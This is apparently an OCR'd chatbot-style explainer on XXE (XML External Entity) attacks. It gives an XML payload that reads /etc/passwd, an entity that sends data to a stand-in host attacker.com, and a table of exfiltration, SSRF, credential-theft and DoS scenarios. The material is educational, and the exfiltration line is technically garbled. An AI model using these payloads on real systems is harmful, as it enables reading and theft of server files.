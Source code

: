 Absolutely Ali — let’s break down **data transmission from an XXE (XML External Entity) vulnerability perspective** completely. This is a powerful and often misunderstood attack vector that targets how applications  **parse and process XML data** , especially when they allow external entities.

---

## 🧠 What Is XXE?

**XXE (XML External Entity)** is a vulnerability that occurs when an XML parser processes **external entities** embedded in XML documents.

If the parser is  **misconfigured or insecure** , attackers can use XXE to:

* **Read local files**
* **Send internal data to external servers**
* **Perform SSRF (Server-Side Request Forgery)**
* **Execute denial-of-service attacks**

> In short: XXE turns XML parsing into a weapon for data exfiltration and internal network access.

---

## 🔁 How Data Transmission Happens in XXE

### 🔹 Step-by-Step Flow:

1. **Attacker crafts malicious XML** with an external entity:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

2. **Application receives and parses XML** (e.g., via API, upload, SOAP)
3. **Parser resolves the entity** and replaces `&xxe;` with the contents of `/etc/passwd`
4. **Data is transmitted** :

* Back to the attacker in the response
* Or sent to an external server via a remote entity:

```xml
<!ENTITY xxe SYSTEM "http://attacker.com/steal?data=file:///etc/passwd">
```

5. **Attacker receives sensitive data** — without direct access to the server

---

## 🧨 Real-World Data Transmission Scenarios via XXE

| Scenario                                 | Description                                                      |
| ---------------------------------------- | ---------------------------------------------------------------- |
| **File Disclosure**                | Read sensitive files like `/etc/passwd`,`.env`, config files |
| **Out-of-Band (OOB) Exfiltration** | Send data to attacker-controlled server via HTTP                 |
| **SSRF via XML**                   | Access internal services (e.g., metadata endpoints)              |
| **Credential Theft**               | Read keys, tokens, or passwords stored in files                  |
| **DoS via Billion Laughs**         | Overload parser with recursive entities                          |

---